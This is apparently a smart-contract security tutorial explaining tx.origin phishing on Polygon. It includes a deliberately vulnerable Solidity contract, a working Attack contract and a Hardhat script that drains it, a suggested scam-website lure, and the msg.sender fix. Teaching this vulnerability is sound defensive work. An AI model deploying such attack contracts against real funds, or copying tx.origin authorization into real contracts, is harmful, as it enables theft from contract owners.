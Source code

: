 # Phishing with tx.origin

So, we started with some security stuff in the last quest. How about we continue on? Come on, I know you like it. This will make you more confident writing on Polygon in a secure manner.

Now go ahead and setup a Polygon hardhat project as you already did many times in previous quests. Add your Alchemy key, two private keys, and everything!

So, phishing attacks, huh? A phishing attack (AKA tx.origin attack) is one of the simplest yet most dangerous ones in terms of damage. Yes, phishing can happen in the realm of smart contracts! Phishing attacks happen when an attacker deceives the owner of a contract making them call an _onlyOwner_ function. An _onlyOwner_ function is a function that can only be called by the owner (or that is how it is supposed to be). This kind of attack happens because the _tx.origin_ keyword is used. _tx.origin_ represents the transaction origin, this is different from _msg.sender_.
In a call chain like this A -> B -> C, the _msg.sender_ in C is B, but the _tx.origin_ is A. this leaves room for attackers.  Let’s find out how!

## Writing the Vulnerable contract:
Go into your _contracts_ directory and create a Vulnerable.sol.
Let’s consider the following case: Alice wrote and deployed a contract for charity. She can chip in MATICs to her contract, and she can call a function with a specific address to donate. Let’s have a look at the contract:

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.7.0 <0.9.0;

contract Vulnerable {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function withdraw(address payable _recipient) public {
        require(tx.origin == owner, "You are not the owner!");
        _recipient.transfer(address(this).balance);
    }

    receive() external payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

A standard contract, nothing really complicated. She deploys the contract, becomes the owner, and then sends her funds to a charity if she wants. Alice is such a nice person! But she made a mistake by using _tx.origin_ authentication. Now Bob decides to trick Alice, and he is a solidity expert. So Bob creates a contract called _Attack_, tricks her to call a function in his contract, which in turn calls the _withdraw_ function with his own address. Notice that Alice is _tx.origin_ in this chain: 
Alice -> Attack contract -> Vulnerable contract
Let’s see who Bob made this happen in his _Attack_ contract. Take a breath and let’s move on!

## Writing the Attack contract:
While you are in the _contracts_ directory, create an Attack.sol.
Let’s take a minute and think about how Bob could do this. He needs to deploy with _Vulnerable_'s address. Well, for the attack to succeed, Alice should interact with _Attack_ somehow. Let’s take a look at his contract:

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.7.0 <0.9.0;
import "./Vulnerable.sol";

contract Attack {
    address payable owner;
    Vulnerable vulnerable;

    constructor(Vulnerable _vulnerable) {
        owner = payable(msg.sender);
        vulnerable = Vulnerable(_vulnerable);
    }

    function hack() public {
        vulnerable.withdraw(payable(address(this)));
    }

    receive() external payable {}

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

There are two ways Bob can hack Alice’s vulnerable contract, he can:

1 - Trick her to directly call _hack()_.

2 - Convince her to send ether to his _Attack_ contract.

Let’s think about how can he do it the first way. He can create a scam website and send the link to Alice. The website has one button with the text “Elon Musk is giving away ethers, click here to claim the reward”. You have seen such scams, right? The button is linked to _Attack.hack()_ so when she clicks, it is done. Or if poor Alice trusts malicious Bob, she can be convinced to send ethers to _Attack_, maybe she does not know that there is code in that address. Malicious Bob told her that this is his own address! Sending ethers to _Attack_ triggers the _receive() function_, which calls _Vulnerable.withdraw()_ with Bob’s address as a parameter. So, adding the line: 

```js 
vulnerable.withdraw(payable(address(this)));
```

to _receive()_ will also do.

## Attacking in Hardhat:
Create a scripts directory, create a js file, name it Attack.js. Let's simulate the attack.

```js
const { ethers } = require('hardhat')

const sleep = (milliseconds) => {
    return new Promise(resolve => setTimeout(resolve, milliseconds))
}

hack = async () => {
    let Vulnerable, vulnerable, Attack, attack, signers, Alice, Bob, overrides, AliceBalance, BobBalance

    signers = await ethers.getSigners()
    Alice = signers[0]
    Bob = signers[1]

    console.log("I am poor Alice and I am deploying my vulnerable contract:")
    Vulnerable = await ethers.getContractFactory("Vulnerable")
    overrides = {
        value: ethers.utils.parseEther("0.000000001")
    }
    vulnerable = await Vulnerable.deploy(overrides)
    console.log("The vulnerable contract was deployed to " + vulnerable.address)
    console.log("-----------------------------------------------")

    console.log("I am malicious Bob and I am deploying my attack contract:")
    Attack = await ethers.getContractFactory("Attack")
    attack = await Attack.connect(Bob).deploy(vulnerable.address)
    console.log("The attack contract was deployed to " + attack.address)
    console.log("-----------------------------------------------")

    AliceBalance = await vulnerable.getBalance()
    BobBalance = await attack.getBalance()
    console.log("Alice has " + AliceBalance + " MATICs")
    console.log("Bob has " + BobBalance + " MATICs")
    console.log("-----------------------------------------------")

    console.log("Bob is about to hack(), he convinced Alice to call this function!")
    await attack.connect(Alice).hack()
    console.log("-----------------------------------------------")

    console.log("The hack is over:")
    await sleep(20000)
    AliceBalance = await vulnerable.getBalance()
    BobBalance = await attack.getBalance()
    console.log("Alice has " + AliceBalance + " MATICs")
    console.log("Bob has " + BobBalance + " MATICs")
}
hack()
```

Like we did in the previous reentrancy quest, right?
This scripts shows a possible scenario of the attack, feel free to play with it. Maybe trying hacking the second way, with _receive()_?

Now run
``` npx hardhat run Attack.js --network mumbai ```

You should get this, had you did everything the right way:

```
I am poor Alice and I am deploying my vulnerable contract:
The vulnerable contract was deployed to 0x0658AC49Ff407989492B1A9A66aC908B48f1F3b4
-----------------------------------------------
I am malicious Bob and I am deploying my attack contract:
The attack contract was deployed to 0x603a0d2E0D5ae85D3443D740EE255af4BDB54863
-----------------------------------------------
Alice has 1000000000 MATICs
Bob has 0 MATICs
-----------------------------------------------
Bob is about to hack(), he convinced Alice to call this function!
-----------------------------------------------
The hack is over:
Alice has 0 MATICs
Bob has 1000000000 MATICs
```

Ok, so how to prevent this kind of hacks?

## Final remarks:
In a scenario like the one we discussed, just use _msg.sender_ for authentication. _tx.origin_ should not be used for authorization. This does not mean that you should not use _tx.origin_ at all, there are some legitimate use cases. Like making sure no intermediate contracts are calling the current contract:

``` js
require(msg.sender == tx.origin); 
```

You can use that if you are worried about smart contracts calling your contract. 
Happy coding my friend!

